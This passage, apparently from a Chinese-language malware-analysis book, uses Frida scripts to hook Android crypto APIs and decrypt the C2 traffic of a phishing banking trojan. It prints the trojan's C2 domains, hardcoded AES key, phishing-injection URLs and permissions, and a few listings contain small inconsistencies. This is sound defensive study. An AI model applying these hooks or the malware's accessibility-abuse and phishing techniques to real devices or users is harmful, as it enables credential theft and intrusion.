在[第三章中，我们建议逆向工程师在分析程序代码时建立一个有趣的 API 方法列表以便搜索。你可以使用相同的列表与`frida-trace`结合，拦截并记录恶意软件如何使用这些 API。除了加密 API，你还可以尝试拦截与网络通信、文件系统访问或敏感数据访问相关的 API。

#### ***使用 Frida 脚本寻找恶意软件的入口点***

`frida-trace`的缺点是它无法将观察到的 API 与恶意软件的代码关联起来。我们现在可能知道恶意软件使用了加密，甚至知道它如何设置加密算法，但我们并不知道这发生在什么位置。为了建立这种联系，我们可以使用 Frida 脚本。

脚本编写可能是 Frida 最有用的功能。它允许 Frida 用户使用不同的编程语言编写自定义代码与被观察的程序交互。在本节中，我们将使用这个功能，通过观察有趣函数的堆栈跟踪，将 API 调用与底层恶意软件的代码联系起来。

使用 `frida-trace`，我们了解到恶意软件调用了默认的 Java 加密 API `Cipher.doFinal` 来加密和解密数据。现在，我们可以通过一个自定义的 Frida 脚本来专门拦截这个 API，发现恶意软件中调用该 API 的位置。这个脚本使用 JavaScript 编写，清单 4-4 是一个非常简单的 Frida 脚本，用于拦截 `Cipher.doFinal` API。将其保存为名为 *xeno-dofinal.js* 的文件。

```
Java.perform(() => {
  const Cipher = Java.use("javax.crypto.Cipher");
  Cipher.doFinal.overload('[B').implementation = function() {
    console.log("doFinal called from" );
    Java.perform(() => {
      console.log(Java.use("android.util.Log").getStackTraceString(
        Java.use("java.lang.Exception").$new()))
    });

    return this.doFinal();
  };
});
```

*清单 4-4：拦截 doFinal API 的 Frida 脚本*

我们使用 Frida 的 JavaScript API 中的`Java.perform`，确保当前线程附加到虚拟机上，然后执行其参数中给定的函数。在我们的示例中，提供的函数包含了负责 hook `Cipher.doFinal`的代码。Hook 一个 Java 方法首先需要获取该类的 JavaScript 封装器。为此，我们使用 Frida JavaScript API 中的`Java.use`，它以完全限定的 Java 类名作为参数。

在 hook 和覆盖方法之前，我们需要确定在被 hook 的类中是否存在多个同名方法。如果有，我们需要使用`overload`函数进行区分，明确传递方法参数的 Java 类型。在这里，我们通过传递参数`”[B”`来区分`doFinal`方法，这表示 Java 类型语法中的字节数组。

一旦我们找到了正确的重载方法，我们通过简单地为自定义函数赋值来覆盖对象的`implementation`属性。现在，每当应用调用被 hook 的 API 时，我们的代码就会执行，而不是原始的 API 代码。我们还使用了一种旧的 Java 技巧，通过抛出一个新的异常并打印其堆栈跟踪来获取我们当前的位置。最后，我们通过调用其原始实现来返回`doFinal`的预期值。

**注意**

*你可以使用 jadx 来帮助你拦截分析应用中定义的方法。在 jadx 的上下文菜单中，对于方法定义或调用，选择**复制为 Frida 脚本片段**。这将创建使用*Java.use*的 Frida JavaScript，就像我们在脚本中所做的那样。*

#### ***执行 Frida 脚本***

从主机机器的命令行执行 Frida 脚本：

```
$ frida -U -f com.spike.old -l xeno-dofinal.js
```

`-U`参数指示 Frida 查找通过 USB 连接的设备，`-f`参数启动恶意软件应用。`-l`参数指定要运行的脚本文件。一旦你运行了这个命令，Frida shell 应该会打开，并在挂起状态下启动恶意软件。要继续执行它，请在 shell 中输入%resume：

```
[Android Emulator 5554::com.spike.old ]-> %resume
```

列表 4-5 展示了脚本的输出。你应该从上到下阅读这个日志。每个打印的堆栈跟踪都以`java.lang.Exception`开始，接着是被观察的`doFinal`调用。之后，你将看到调用`doFinal`的代码片段。

```
[Android Emulator 5554::com.spike.old ]-> doFinal called from
java.lang.Exception
    at javax.crypto.Cipher.doFinal(Native Method)
    at com.sniff.sibling.UtilEncryption.encryptMessage(UtilEncryption.java:46)
    at com.sniff.sibling.Api.Bodies.ApiVerifyRequestBody$Builder.emplaceIdIv(
        ApiVerifyRequestBody.java:72)
    at com.sniff.sibling.Api.Controllers.ApiVerifyController.sendRequest(
        ApiVerifyController.java:42)
    at com.sniff.sibling.Services.KingService.lambda$startService$1$
        com-securitypolicies-setup-Services-KingService(KingService.java:161)
        at com.sniff.sibling.Services.KingService$$
            ExternalSyntheticLambda1.run(Unknown Source:4)
    at java.util.concurrent.ThreadPoolExecutor.runWorker(
        ThreadPoolExecutor.java:1167)
    ...

doFinal called from
java.lang.Exception
    at javax.crypto.Cipher.doFinal(Native Method)
    at com.sniff.sibling.UtilEncryption.decryptMessage(UtilEncryption.java:75)
    at com.sniff.sibling.Activities.AccessibilityEnableHintActivity.onStart(
        AccessibilityEnableHintActivity.java:68)
    at android.app.Instrumentation.callActivityOnStart(
        Instrumentation.java:1435)
```

*列表 4-5：Frida 脚本的输出展示了调用*doFinal*的位置。*

第一个堆栈跟踪显示了`encryptMessage`函数，第二个显示了`decryptMessage`。第一次，我们能够对应用的控制流程有所了解。脚本的输出准确地显示了`doFinal`方法是如何从非标准的*com.sniff*包中被调用的，这部分应该是执行加密的恶意软件部分。

为了进一步了解恶意软件，我们可以重复这个过程，分析其他有趣的功能。例如，我们可能希望找到 *ring0.xml* 和 *hq.json* 写入磁盘的位置，以及与命令与控制服务器建立网络连接的位置。我们将这些任务留给读者自行完成。

### **解密命令与控制通信**

与上一章一样，我们想要逆向工程的恶意软件最重要的特性之一是它与命令与控制服务器的加密通信。破解加密将使我们更好地理解它支持的命令。我们将使用动态分析，而不是静态分析和代码阅读，来了解这种通信是如何工作的。通过 tcpdump、logcat 和 Frida，我们拥有所需的所有工具。

在之前使用 tcpdump 和 Wireshark 进行的分析后，我们知道恶意软件首次建立的连接是一个 HTTP POST 请求，目标为 *http://simpleyo5.tk/ping*。在这个请求中，恶意软件发送了一个包含四个条目的 JSON 对象，如 清单 4-6 所示。

```
{
    "hash": "c9KjsZ9C7He6VRmwPMY9YpRrW8H9UFIITKB7umfOUyo=",
    "id": "9hbTqZU/XYXD8Z1hftmY0N63NltNY2+ihQOnUHrg9T1B/C...",
    "iv": "M0KcSRwOMvKnbNd4TE719Q==",
    "type": "request_verify"
}
```

*清单 4-6：发送到* /ping *URL 的 JSON 有效负载*

这些值仍然不清楚。唯一的明文条目 `"type": "request_verify"` 表示此连接的目的是请求对恶意软件客户端进行验证。我们在这里简化了 `id` 的值；原本它有超过 7,000 个字节。它的长度表明它可能是消息的主要有效负载。`hash` 的值目前尚不清楚，`iv` 的值也不明确，且其名字引人注意。它是否是用于加密有效负载的初始化向量？稍后我们将确认这一点。

#### ***使用 CyberChef***

CyberChef ([*https://gchq.github.io/CyberChef*](https://gchq.github.io/CyberChef)) 是一个开源的 Web 应用，用于加密、编码、压缩和数据分析。由英国的政府通讯总部（GCHQ）开发，GCHQ 是英国版的 NSA，它可能是恶意软件分析过程中操作、转换和解密数据最用户友好的方式。在本节中，我们将使用它来操作恶意软件的加密通信协议。

图 4-3 显示了 CyberChef 界面。在右上角，您可以输入要转换的明文数据。右下角是转换后数据的输出字段。在左侧，您可以从几十种数据转换中选择，拖动并放入中央区域。



*图 4-3：使用 CyberChef 获取 Base64 编码字符串的十六进制字节值*

在这里显示的示例中，我们输入了前一部分 JSON 负载中的 `iv` 值。然后，我们选择了两种数据转换应用：Base64 解码和将结果转换为十六进制字符串。这输出了字符串 `33 42 9c 49 1c 0e 32 f2 a7 6c d7 78 4c 4e f5 f5`，它对应于 `iv` 值在进行 Base64 编码之前的字节。

**注意**

*CyberChef 配方可能比这里展示的更复杂，通常使用控制流操作、代码反汇编或 YARA 规则。*

Frida 输出告诉我们，恶意软件使用 AES 加密，在所谓的 CBC 模式下对负载进行加密和解密。我们需要恢复加密密钥和算法初始化向量，才能成功解密负载。在 logcat 日志、JSON 负载本身以及 Frida 输出中，我们遇到了一些潜在的加密密钥和初始化向量。在下一节中，我们将展示一个更有结构的方法来发现这些值，但现在，让我们先使用 JSON 负载中的 IV 和我们在系统日志中找到的加密密钥。我们可以使用这些信息完成 CyberChef 配方，确保为负载、密钥和 IV 选择合适的输入格式（在我们这里是 Raw、Hex 和 Base64）。图 4-4 显示了结果。



*图 4-4：使用 CyberChef 解密命令和控制通信*

我们在列表 4-7 中完整地重现了解密后的 JSON 负载。

```
{
    "api": 30,
    "apps": [
        "com.android.cts.priv.ctsshim",
        "com.android.internal.display.cutout.emulation.corner",
        "com.android.internal.display.cutout.emulation.double",
        "com.android.providers.telephony",
        "com.android.dynsystem",
        "com.android.theme.icon.pebble",
        "com.android.providers.calendar",
        ...
        "com.android.theme.icon_pack.circular.android"
    ],
    "imei": "f1b9bf329f36d7ee",
    "model": "Unknown Android SDK built for x86",
    "numbers": [
        "No numbers"
    ],
    "tag": "cleaner0902",
    "uid": "f1b9bf329f36d7ee"
}
```

*列表 4-7：发送到* /ping *URL 的解密 JSON 负载*

`api` 字段可能是设备的 Android API 版本（记得我们在本章开始时将其配置为 30）。接下来是一个应用程序列表，可能是安装在系统上的应用程序。`imei` 和 `model` 字段可能是设备的 IMEI 编号和设备型号。`numbers` 是什么还不清楚，但它可能是设备的电话号码或联系人列表中的电话号码。`tag` 字段可能标识恶意软件应用本身，而 `uid` 可能是某种唯一的用户 ID。

当然，我们现在需要考虑服务器返回的数据。列表 4-8 显示了 POST 请求的响应。

```
{
    "type": "reponse_verify",
    "hash": "6Judi7AChueoT88kb5yqRyA+LVY+AaRqMXPNtYAwl94=",
    "iv": "UyRedbVBUrUG+MEuIWSO8w==",
    "id": "8n7raTheyi0wb56/KGEpT03yrXARP1klA5c7s/1EMq8="
}
```

*列表 4-8：从* /ping *URL 接收到的 JSON 响应*

`type` 字段的值 `response_verify` 与 POST 负载的 `request_verify` 字段相匹配。其他三个字段，`hash`、`id` 和 `iv`，也与 POST 请求中的字段相匹配。它们的值似乎是 Base64 编码的。

尝试使用之前的加密密钥和来自 POST 响应的 IV 值解密 `id` 字段时，并未立即得到可读的结果。解密后的值是一个包含似乎随机字节的 16 字节数组。目前其用途和含义尚不清楚。同样，我们也无法轻松解密后续连接到命令和控制服务器的 POST 负载。我们必须更深入地策略性探索恶意软件。

#### ***通过 Frida***

为了自动拦截和解密加密的指挥控制通信，我们可以使用 Frida。具体而言，我们将编写一个脚本，拦截重要的 Java 加密 API 方法，并将它们的输入和输出写入文件，供稍后检查。为此，我们将使用一些高级 Frida 特性。

值得注意的是，我们不会使用 Frida 命令行来启动恶意软件进程，而是使用第二个脚本，即*控制脚本*，来启动恶意软件进程并控制其执行。控制脚本将把另一个脚本（类似于我们在本章前面编写的脚本）注入到该进程中。

##### 控制脚本

让我们开始编写控制脚本，它将启动恶意软件应用程序、附加到其进程、注入 Frida 脚本，并将拦截到的 API 参数写入磁盘。我们选择用 Python 编写它，以展示 Frida 对不同脚本语言的支持。将此代码保存为文件*xeno.py*。

清单 4-9 是控制脚本的主函数。它使用 Frida Python 绑定与 Android 模拟器进行交互。

```
import sys
import frida

def main():
    emulator = frida.get_usb_device()
    pid = emulator.spawn('com.spike.old')
    session = emulator.attach(pid)
    inject_script(session)
    emulator.resume(pid)
    sys.stdin.read()
    session.detach()

if __name__ == '__main__':
    main()
```

*清单 4-9：控制脚本的主函数*

主函数通过 USB 连接到 Android 模拟器，启动并附加到恶意软件进程，获取其进程 ID。它使用`inject_script`函数将 Frida 脚本注入到恶意软件进程中，然后继续执行，保持脚本活跃，直到用户按下 CTRL-C。清单 4-10 展示了`inject_script`的定义。

```
def inject_script(session):

    def on_message(message, _):
        if message['type'] == 'send':
            if 'input' in message['payload']:
                write_data('iv', message['payload']['iv'])
                write_data('input', message['payload']['input'])
            elif 'output' in message['payload']:
                write_data('output', message['payload']['output'])
            elif 'key' in message['payload']:
                write_data('key', message['payload']['key'])
            else:
                print('Unknown message: ', message)
        else:
            print('Unknown message: ', message)

    with open('xeno.js', 'r', encoding='utf8') as script_file:
        code = script_file.read()

    script = session.create_script(code)
    script.on('message', on_message)
    script.load()
```

*清单 4-10：控制脚本的进程注入功能*

这个功能将 Frida 脚本文件*xeno.js*（稍后在本章的清单 4-12 中可以找到）加载到恶意软件进程中。最重要的是，它设置了回调方法`on_message`，该方法可以接收来自恶意软件进程内 Frida 脚本的消息。消息的格式将在我们讨论注入的脚本代码时变得更加清晰。通常，Frida 的默认消息格式定义了键/值对，并有两个默认键，`type` 和 `payload`。我们的注入脚本会用新的键/值对覆盖`payload`的值。对于每条消息，键可以是`iv`、`key`、`input`或`output`，具体取决于值字段中的二进制数据类型。

最后，控制脚本定义了`write_data`函数，该函数接收拦截到的数据，并将其写入多个文件（清单 4-11）。

```
import time

def write_data(file_prefix, data):
    current_time = round(time.time() * 1000)
    filename = f'{current_time}_{file_prefix}.bin'

    print('Writing file:', filename)

    with open(filename, 'wb') as output_file:
        output_file.write(bytearray((d % 0xFF for d in data)))
```

*清单 4-11：控制脚本的文件写入功能*

为了保持数据收集的时间顺序，该功能使用包含当前毫秒时间（ms）和数据类型的文件名，将每条数据写入一个独立的文件。

##### 注入脚本

我们注入到恶意软件进程中的脚本要小得多。它的唯一任务是拦截 Java 加密 API `SecretKeySpec` 和 `Cipher.doFinal`，并将传递给它们的数据发送到控制脚本。列表 4-12 展示了整个 JavaScript 脚本。

```
console.log("Loading Javascript");

Java.perform(() => {
  const Cipher = Java.use("javax.crypto.Cipher");

  Cipher.doFinal.overload('B').implementation = function(arr) {
    send( {'input': arr, 'iv': this.getIV() });

    const result = this.doFinal(arr);

    send( {'output': result });

    return result;
  };

  const SecretKeySpec = Java.use("javax.crypto.spec.SecretKeySpec");
  SecretKeySpec.$init.overload(
    "[B", "int", "int", "java.lang.String").implementation = function(
      arr, off, len, alg) {
    send( {'key': arr} );
    return this.$init(arr, off, len, alg);
  };

});

console.log("Javascript loaded");
```

*列表 4-12：注入的脚本*（xeno.js）

这个脚本重用了本章早些时候讨论的 Frida 脚本概念，如 `Java.perform` 和 `Java.use`。它还使用 Frida 的默认 `send` 方法向控制脚本发送消息，传输加密密钥、初始化向量以及明文和密文消息。

运行 Python 脚本应该会生成以下输出：

```
$ python3 xeno.py
Loading Javascript
Javascript loaded
Writing file: 1651309456940_key.bin
Writing file: 1651309456997_iv.bin
Writing file: 1651309456997_input.bin
Writing file: 1651309457218_output.bin
Writing file: 1651309458430_key.bin
Writing file: 1651309458567_iv.bin
Writing file: 1651309458568_input.bin
Writing file: 1651309458682_output.bin
```

如你所见，脚本创建了包含加密密钥、初始化向量、加密方法的输入数组以及加密方法输出数组的文件。请注意，代码并没有尝试判断数据是加密还是解密，因此文件名并不能告诉我们是否可以在*输入*或*输出*文件中找到未加密的明文用于加密操作。

我们可以使用 Linux 命令行工具 xxd 来转储密钥和初始化向量文件的十六进制值和 ASCII 表示。你会注意到第一个密钥是我们多次遇到过的那个：

```
$ xxd 1651309456940_key.bin
00000000: 5f9d 4a91 b0d7 c7b8 8cb8 b6f7 f77f 0d2e  _.J.............
```

通过检查这些文件，我们可以发现，对于外发网络流量，输入文件包含未加密的信息，然后这些信息被加密并发送到命令与控制服务器。同样，对于来自命令与控制服务器的入站流量，输入文件包含接收到的加密消息，输出文件则包含解密后的消息。

### **命令与控制服务器消息**

虽然我们的 Frida 脚本提供了有关加密负载的信息，但它并没有将负载与 URL 连接关联起来。然而，除非我们想完全自动化分析，否则这并不必要。我们已经使用 tcpdump 记录了 HTTP 连接及其负载，并可以在 Wireshark 中查看它们。让我们将写入 Frida 的文件中的负载与 Wireshark 中可见的负载进行比较。由于恶意软件与服务器的连接非常少，因此完全可以在不自动化此步骤的情况下继续。

#### ***/ping URL***

当我们使用 tcpdump 和 Wireshark 转储网络流量时，我们发现恶意软件的第一个连接是到 *http://simpleyo5.tk/ping*。我们还通过 Frida 和 logcat 的信息成功解密了其负载。负载的最大部分是已安装应用程序的列表。服务器回复了一个格式类似但大小更小的 JSON 负载。长时间运行 tcpdump 和 Wireshark 似乎并不会改变这个负载和响应。虽然该应用程序随后会连接到此 URL，但它似乎仅通过此命令使服务器意识到有一个可用的客户端。

#### ***/metrics URL***

如果你再看看 Wireshark，你会注意到恶意软件连接的另一个 URL，而且这个 URL 更为有趣。在首次连接到*/ping*后，恶意软件开始连接到*http://simpleyo5.tk/metrics*。这些连接更频繁，并且双向的有效载荷更加多样化。

在首次连接到*/metrics*端点时，恶意软件传输了一个包含明文键和加密值的 JSON 文件，这与它发送到*/ping*的文件类似。例如，它可能看起来像[清单 4-13 中所示的那样。

```
{
    "hash":"3E0+xCtHOl1sRkCb1GGS/VO3xFekCMw3aR8zrPLK44o=",
    "id":"IpDySYsxdURFmYsjS6EGkxE/ei7PsZfjjlz7OmFm5fc=",
    "iv":"mdPtTwJDHpVjIJPyhi7xxA==",
    "metrics":"Hfu92QtpMSbnGeWIiWC57rzdOvq3/+tXiF7D1uLb/YU="
}
```

*清单 4-13：发送到*/metrics* URL 的 JSON 有效载荷，针对*jni_update*命令*

`hash`、`id`和`iv`字段中的值可能在作用上类似于它们在发送到*/ping*的有效载荷中的作用。`metrics`字段是新的，取代了发送到*/ping*的`type`字段的明文值。

事实证明，`metrics`解密后为`{"type":"inj_update"}`，这似乎是应用程序向服务器发送的一个简单请求，请求获取有关“注入”的信息，无论那是什么。服务器回应一个长消息，解密后得到的 JSON 有效载荷如清单 4-14 所示。

```
{
    'type': 'inj_update',
    'injections': 
        {
            'app': 'ca.mobile.explorer',
            'url': 'https://homeandofficedeal.com/local/pt/ca.mobile.explorer.html'
        },
        {
            'app': 'cgd.pt.caixadirectaparticulares',
            'url': 'https://homeandofficedeal.com/local/pt/
                    cgd.pt.caixadirectaparticulares.html'
        },
        {
            'app': 'com.abanca.bm.pt',
            'url': 'https://homeandofficedeal.com/local/pt/com.abanca.bm.pt.html'
        },
        ...
}
```

*清单 4-14：解密后的来自*/metrics* URL 的 JSON 响应*

这个长长的应用包名和 URL 列表非常有趣。今天，这些 URL 已经消失，但我们在之前的分析中探索过它们，并在这里展示。每个 HTML 文件都是针对不同合法应用的钓鱼页面。[图 4-5 中的截图展示了与*com.android.vending*（即 Google Play 应用的包名）相关的钓鱼页面。



*图 4-5：在 Google Play 中钓鱼信用卡信息的输入框*

除了`inj_update`，*/metrics* URL 还可以接收至少一个其他命令。在随后的连接中，恶意软件发送了一个名为`get_coms`的命令，其有效载荷如清单 4-15 所示。

```
{
    "permissions": ["notification_manager","generic_permissions"],
    "rm_triggered":false,
    "user_present":true,
    "type":"get_coms"
}
```

*清单 4-15：解密后的 JSON 有效载荷，发送到*/metrics* URL，针对*get_coms*命令*

除了指示消息类型的`type`字段外，只有`user_present`字段看起来比较容易理解。`rm_triggered`指的是什么并不清楚，`permissions`字段的确切含义仍然扑朔迷离。不过，我们得到了一些额外的线索，表明该应用程序关注应用通知。

在我们的测试中，`get_coms`无疑是发送到服务器的最常见命令。不幸的是，我们观察到的唯一响应是空的有效载荷`{'type': 'get_coms', 'coms': []}`。当我们尝试进行深入分析时，命令与控制服务器已经关闭，因此我们不得不使用之前在恶意软件扫描器归档中收集的有效载荷来推测恶意软件的行为。

#### ***旋转加密密钥***

细心跟随本次应用分析的读者可能已经注意到，恶意软件更改了加密密钥。当 Frida 脚本将不同的值记录到密钥文件时，你可以观察到这一点，但当你尝试使用 CyberChef 手动解密负载时，这变得更加明显。

我们之前发现的加密密钥 `5f 9e 4a 92 b1 d8 c8 b9 8d b9 b7 f8 f8 80 0d 2e` 仅用于首次连接到*/ping* URL 时的初始命令和控制服务器通信。回想一下，*/ping*的回复负载包含一个名为`id`的 JSON 字段。该字段保存了新的加密密钥。字段本身是加密的，但我们可以使用原始密钥和回复中的`iv`字段中的初始化向量来解密它。

事实证明，应用程序还会将这个新密钥记录到系统日志中。我们可以使用 logcat 来检索它：

```
$ adb logcat | grep "Client verified"
16:18:07.150 D/pioneer_bridge_over_white_rabbits 
    (setVerification)( 9686): Client verified: uV+VcJoWRYP79riYnZvmUw==
16:20:16.716 D/pioneer_bridge_over_white_rabbits
    (setVerification)(11030): Client verified: pwp4tia4GyVyhuB7Z8HYsA==
```

每个日志行末尾的 Base64 加密值是新的加密密钥。日志还显示加密密钥会进一步旋转，可能是在每次调用*/ping*时，因为在任何两个*/ping*调用之间，密钥似乎保持稳定。

### **其他恶意软件功能**

运行应用程序并检查其命令和控制消息让我们获得了几个可以深入追踪的线索。我们知道该应用程序希望获得使用无障碍 API 的权限，关注已安装的应用程序，并对通知监听器权限感兴趣。让我们利用这些信息进行更深入的挖掘。

#### ***使用 frida-trace 探索 com.sniff***

在几次分析中，我们确认了名为*com.sniff*的 Java 包的存在。我们可以采取的下一步是使用 Frida 来探索这个包。

你可能天真地尝试使用`frida-trace`拦截该包中的所有方法并记录它们的使用情况、参数和返回值。然而，如果你只是运行类似于我们之前用来拦截加密 API 的命令，这样做并不会很好地工作，正如你在这里看到的那样：

```
$ frida-trace -U -j 'com.sniff*!*' -f com.spike.old
Instrumenting...                                                        
MainApplication.$init: Loaded handler at
    "__handlers__/com.sniff.sibling.MainApplication/_init.js"
MainApplication.getContext: Loaded handler at
    "__handlers__/com.sniff.sibling.MainApplication/getContext.js"
MainApplication.getInstance: Loaded handler at
    "__handlers__/com.sniff.sibling.MainApplication/getInstance.js"
MainApplication.onCreate: Loaded handler at
    "__handlers__/com.sniff.sibling.MainApplication/onCreate.js"
Started tracing 4 functions. Press Ctrl+C to stop.
```

如输出所示，Frida 只能在`MainApplication`类中找到四个方法。这是因为在`frida-trace`枚举已加载的类时，Java 类加载器还没有完成加载应用程序的所有类。

有两种方法可以执行更完整的跟踪。首先，可以修改`frida-trace`命令，使其附加到现有进程，而不是启动一个新进程。虽然这样做很简单，但这意味着会错过应用程序启动和 Frida 附加到进程之间的所有方法调用。另一种选择是编写一个更复杂的 Frida 脚本，等待类加载器完成，列举所有方法，并拦截它们。对于我们的目的，附加到一个正在运行的进程这一简单方法应该能够很好地工作，因为恶意软件有一个特点。由于恶意软件在用户授予它使用无障碍 API 的权限之前，阻止大多数功能的执行，我们只需要启动应用程序，让它停留在无障碍请求窗口，然后将 Frida 附加到进程上。

要告诉`frida-server`附加到一个进程而不是启动它自己的进程，我们可以将`-f`参数换成`-p`，并传入进程 ID 而不是包名。我们也可以按名称附加到一个进程，但在 Android 上这样做比较麻烦，因为 Frida 期望的是应用名，而不是包名。通常，在恶意软件分析过程中，你会很快了解应用的包名，但不会知道它的文本名称。在这里，我们通过进程 ID（24606）附加到*com.spike.old*：

```
$ frida-trace -U -j 'com.sniff*!*' -p 24606
...
11851 ms  MainActivity.$init()
11897 ms  MainActivity.onCreate(null)
11957 ms     | UtilGlobal.isAccessibilityServiceEnabled(
    "<instance: android.content.Context,
    $className: com.sniff.sibling.MainActivity>",
    "<instance: java.lang.Class>")
...
11994 ms     |    | UtilGlobal.startAccessibilityActivity(
    "<instance: android.content.Context,
    $className: com.sniff.sibling.MainActivity>")
12005 ms     | MainActivity$1.$init(
    "<instance: com.sniff.sibling.MainActivity>")
12006 ms     | UtilGlobal.startKingService(
    "<instance: android.content.Context,
    $className: com.sniff.sibling.MainActivity>")
...
12122 ms  KingService.onStartCommand(
    "<instance: android.content.Intent>", 0, 1)
12123 ms     | UtilGlobal.Log("KingService", "onStartCommand")
12123 ms     | KingService.startService()
12123 ms     |    | UtilGlobal.Log("KingService", "startService")
12125 ms     |    | UtilGlobal.setActualNetworkConnection(
    "<instance: android.content.Context,
    $className: com.sniff.sibling.Services.KingService>", 0)
12126 ms     |    |    | UtilGlobal.SettingsWrite(
    "<instance: android.content.Context,
    $className: com.sniff.sibling.Services.KingService>",
    "ANCT", "simpleyo5.tk")
12126 ms     |    | ApiClient.create(
    "<instance: android.content.Context,
    $className: com.sniff.sibling.Services.KingService>")
12346 ms     |    |    | UtilGlobal.getActualNetworkConnection(
    "<instance: android.content.Context,
    $className: com.sniff.sibling.Services.KingService>")
12347 ms     |    |    |    | UtilGlobal.SettingsRead(
    "<instance: android.content.Context,
    $className: com.sniff.sibling.Services.KingService>", "ANCT")
12348 ms     |    |    |    | <= "simpleyo5.tk"
...
12530 ms     |    | ApiVerifyController.sendRequest(
    "<instance: android.content.Context,
    $className: com.sniff.sibling.Services.KingService>")
12530 ms     |    |    | UtilGlobal.getAndroidIDBytes(
    "<instance: android.content.Context,
    $className: com.sniff.sibling.Services.KingService>")
12531 ms     |    |    |    | UtilGlobal.getAndroidID(
    "<instance: android.content.Context,
    $className: com.sniff.sibling.Services.KingService>")
12534 ms     |    |    |    | <= "f67fecc6233d8ae9"
12535 ms     |    |    |    | UtilEncryption.hexStringToBytes(
    "f67fecc6233d8ae9")
```

为了本书的简化，我们大幅减少了输出内容。在实际操作中，这个脚本每秒生成数百行日志。即便是这部分日志，700 毫秒的活动也展现了大量信息。我们看到了更多的类和包名在*com.sniff*中，还看到了恶意软件如何从*ring0.xml*配置文件读取命令和控制 URL 并使用加密。所有这些都通过神秘的`KingService`类联系在一起。

在大多数情况下，恶意软件并没有像这个样本的无障碍请求窗口那样的执行阻塞机制。在这些情况下，你确实可能会错过在`frida-trace`附加到目标进程之前发生的重要方法调用。你可以在网上找到一些自定义脚本的例子，包括一些库代码，可以使整个过程变得非常简单。

#### ***无障碍滥用***

我们提到过，应用程序要求用户做的第一件事是授予它使用无障碍 API 的权限。为什么它需要这个权限仍然不清楚，所以我们来深入探讨一下。为了这个任务，我们可以再次使用`frida-trace`来广泛地捕捉，记录应用程序所有对无障碍 API 的调用：

```
$ frida-trace -U -j 'android.view.accessibility.*!*' -f com.spike.old > accessibility_log.txt
```

在模拟器中手动授予应用访问无障碍 API 的权限后，`frida-trace`命令会生成几兆字节的输出。然而，在模拟器中，你除了看到主屏幕和两个权限对话框（用于读取短信和拨打电话）弹出并消失之外，不会看到太多其他内容。可以推测，应用通过模拟用户点击对话框按钮来授予自己这些权限。

穿越数兆字节的可访问性 API 使用日志是一项繁琐的工作。不过，我们可以通过寻找特定的模式来开始。当我们在本章前面检查 Frida 的调用跟踪时，识别出了*com.sniff.sibling*作为恶意软件中可能感兴趣的 Java 包。通过在日志文件中进行 grep 搜索，我们发现了两个有趣的 Java 类：

```
$ grep -oe "com.sniff.sibling.[a-zA-Z0-9_.]*" accessibility_log.txt | sort | uniq
com.sniff.sibling.Activities.AccessibilityEnableHintActivity
com.sniff.sibling.Activities.PermissionActivity
```

`PermissionActivity` 类可能是负责点击 SMS 和通话权限对话框中按钮的活动，而 `Accessibility EnableHintActivity` 可能是显示请求用户授予可访问性权限的窗口的权限。

查看日志文件的另一种方式是尝试了解应用程序使用了哪些可访问性 API 类。事实证明，答案是很多。以下的 Linux shell 命令返回了大约 50 个不同的类，创建了比我们之前拦截加密 API 时更复杂的情况：

```
$ grep -oe "android.view.accessibility.[a-zA-Z0-9_.]*" accessibility_log.txt | sort | uniq
```

如果没有明确的下一步目标，这种探索方法可能会走到死胡同。我们已经到了纯粹的动态分析变得过于繁琐的地步，可能需要通过静态分析辅助的混合模式探索程序。

### **添加静态分析**

现在我们已经通过多种不同的方式对样本进行了仪器化、观察和操作，我们有数十个线索可以进一步深入探索应用程序。不幸的是，这些线索并没有提供任何容易触发特定代码和行为的方法。相反，我们必须查看源代码，用静态技术来加强我们的动态分析。

#### ***其他命令与控制服务器***

我们可以完成的第一部分分析涉及命令与控制服务器。通过动态分析，我们找到了一个域名，*simpleyo5.tk*，并且有两个端点，*/ping* 和 */metrics*。在 jadx 中搜索这个域名时，揭示了一行代码。来自 *com.sniff.sibling.Constants* 的代码及其周围的行，如清单 4-16 所示。

```
testKey = UtilEncryption.hexStringToBytes("5f9e4a92b1d8c8b98db9b7f8f8800d2e");
apis = Arrays.asList("simpleyo5.tk", "simpleyo5.cf", "kart12sec.ga", "kart12sec.gq");
```

*清单 4-16：*com.spike.old*中的域名和加密密钥

显然，恶意软件可以在多达四个命令与控制域之间切换进行指令传输。我们之前发现的通信加密密钥定义在服务器数组初始化的上一行。

在恶意软件分析中，通常会发现有趣的功能片段靠得很近。例如，看看清单 4-17 中显示的来自 *com.sniff.sibling.Constants* 文件的字符串。

```
public static final String actualNetworkConnectionTag = "ANCT";
public static final String apiLocationOperation = "metrics";
public static final String apiLocationVerify = "ping";
...
public static final String appCodename = "pioneer_bridge_over_white_rabbits";
public static final String appInjectTableTag = "AITT";
...
public static final String appInjectsEnabledTag = "AIEN";
...
public static final String appTag = "cleaner0902";
...
public static final String networkStateTag = "NSTG";
```

*清单 4-17：*com.sniff.sibling.Constants* 中发现的其他有趣字符串

你应该从我们早期的分析阶段就能识别出这些字符串。特别是，带有四个大写字母的字符串是来自神秘的 *ring0.xml* 配置文件的 XML 标签名称。我们可以看到，这些标签名称不仅仅是随机字符，而是表示其功能的缩写。仅靠动态分析是无法揭示这一点的。同样，只有两个以 `api*` 开头的字符串，提供了一些证据，表明 */ping* 和 */metrics* 是恶意软件的命令与控制服务器所支持的唯一端点。

*com.sniff.sibling.Constants* 中的另一段代码特别有趣。在静态初始化器中，接近命令与控制服务器数组初始化的位置，有一些语句暗示了恶意软件使用的权限。清单 4-18 显示了这一点。

```
String[] strArr = new String[10];
strArr[0] = "android.permission.READ_SMS";
strArr[1] = "android.permission.RECEIVE_SMS";
strArr[2] = "android.permission.WAKE_LOCK";
strArr[3] = "android.permission.RECEIVE_BOOT_COMPLETED";
strArr[4] = "android.permission.ACCESS_NETWORK_STATE";
strArr[5] = "android.permission.INTERNET";
strArr[6] = "android.permission.READ_PHONE_STATE";
String str = null;
strArr[7] = Build.VERSION.SDK_INT > 28 ? 
    "android.permission.USE_FULL_SCREEN_INTENT" : null;
strArr[8] = Build.VERSION.SDK_INT > 28 ?
    "android.permission.FOREGROUND_SERVICE" : null;
if (Build.VERSION.SDK_INT > 28) {
    str = "android.permission.READ_PHONE_NUMBERS";
}
strArr[9] = str;
permissions = strArr;
```

*清单 4-18：com.sniff.sibling.Constants 中的权限字符串*

即使有关于权限的警告，如在 第三章 中所述，这个列表仍然为我们提供了有关恶意软件功能的更多信息。

#### ***其他服务器命令***

